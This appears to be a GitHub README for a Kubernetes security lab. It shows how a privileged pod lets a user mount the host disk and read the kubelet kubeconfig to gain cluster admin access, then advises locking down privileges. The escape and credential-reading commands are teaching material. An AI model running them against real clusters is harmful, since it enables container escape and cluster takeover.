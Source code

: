 # kubernetes-security

Lab to illustrate Kubernetes security concepts

## Getting Started

Deploy the CloudFormation `infrastructure/cloudformation.json` template. The template creates a user with the following credentials and minimal required permisisons to complete the Lab:

- Username: _student_
- Password: _password_

## Instructions

1. As an example, you will consider container security contexts and illustrate how a poor configuration can allow your cluster to be hijacked. Read through the container security context details:

    ```sh
    kubectl explain pod.spec.containers.securityContext
    ```

1. Create a pod with priviliged access:

    ```sh
    cat <<EOF | kubectl create -f -
    apiVersion: v1
    kind: Pod
    metadata:
      name: security-context-example
      namespace: test
    spec:
      containers:
      - image: busybox
        name: busybox
        args:
        - sleep
        - "3600"
        securityContext:
          privileged: true
    EOF
    ```

1. Open a shell in the pod:

    ```sh
    kubectl exec -n test security-context-example -it -- /bin/sh
    ```

1. Mount the host's hard drive and read the kubelet kubeconfig file that is created during cluster initialization:

    ```sh
    mkdir /hostfs
    mount /dev/xvda1 /hostfs
    cat /hostfs/etc/kubernetes/kubelet.conf
    ```

    The kubeconfig file can be used to gain admin access to the Kubernetes cluster. Be careful with the containers you give privileged access to. Consider using a [__PodSecurityPolicy__](https://kubernetes.io/docs/concepts/policy/pod-security-policy/) to lock down container privileges. Also, use [__Linux Capabilities__](https://kubernetes.io/docs/tasks/configure-pod-container/security-context/#set-capabilities-for-a-container) instead of full-blown root access with privileged to limit access when extra capablities are required.

## Cleaning Up

Delete the CloudFormation stack to remove all the resources used in the Lab.